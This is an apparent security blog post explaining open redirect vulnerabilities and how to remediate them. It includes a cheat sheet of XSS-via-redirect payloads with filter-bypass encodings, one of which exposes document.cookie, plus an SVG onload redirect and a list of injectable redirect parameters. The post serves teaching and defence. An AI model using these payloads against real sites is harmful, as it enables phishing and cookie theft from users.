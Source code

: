 ```yaml
---
title: Open Redirect Vulnerability
#author: cotes
date: 2024-11-10 12:00:00 +04:00
categories: [Web Vulnerabilities,Open Redirect]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/open_redirection/open-redirection.jpg
  alt: Open Redirect Vulnerability
---
```


## What is Open Redirect?

Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials.

Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application's access control check and then forward the attacker to privileged functions that they would normally not be able to access. 

## Exploitation

Consider this example: Your web application has a feature that allows users to click a link and be automatically redirected to their saved favorite home page. This may be performed as follows: 


  ```console
https://example.com/redirect?url=https://mywebsite.com
```


An attacker could exploit an open redirect here by replacing the `mywebsite.com` with a link to a malicious website. They could then distribute this link in a phishing email or on another website. When users click the link, they're taken to the malicious website.


## Open Redirect to XSS

  ```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

## Open Redirect uploading svg files

  ```bash
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```


## Common injection parameters

  ```text
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```


## Safe URL Redirects

When we want to redirect a user automatically to another page (without an action of the visitor such as clicking on a hyperlink) you might implement a code such as the following:


**PHP**

```php
<?php
/* Redirect browser */
header("Location: http://www.mysite.com");
/* Exit to prevent the rest of the code from executing */
exit;
?>
```
{: file='index.php'}

**ASP .NET**

```csharp
Response.Redirect("~/folder/Login.aspx")
```
{: file='index.aspx'}

**Java**

```js
response.sendRedirect("http://www.mysite.com");
```
{: file='index.js'}

## Remediation

- If possible, applications should avoid incorporating user-controllable data into redirection targets. In many cases, this behavior can be avoided in two ways:
  - Remove the redirection function from the application, and replace links to it with direct links to the relevant target URLs.
  - Maintain a server-side list of all URLs that are permitted for redirection. Instead of passing the target URL as a parameter to the redirector, pass an index into this list.

- If it is considered unavoidable for the redirection function to receive user-controllable input and incorporate this into the redirection target, one of the following measures should be used to minimize the risk of redirection attacks:
  - The application should use relative URLs in all of its redirects, and the redirection function should strictly validate that the URL received is a relative URL.
  - The application should use URLs relative to the web root for all of its redirects, and the redirection function should validate that the URL received starts with a slash character. It should then prepend http://yourdomainname.com to the URL before issuing the redirect.
  - The application should use absolute URLs for all of its redirects, and the redirection function should verify that the user-supplied URL begins with http://yourdomainname.com/ before issuing the redirect.





## References

[**OWASP**](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/open-redirect)

[**Pentester**](https://pentester.land/blog/open-redirect-cheatsheet/)

[**Acunetix**](https://www.acunetix.com/vulnerabilities/web/open-redirection/)
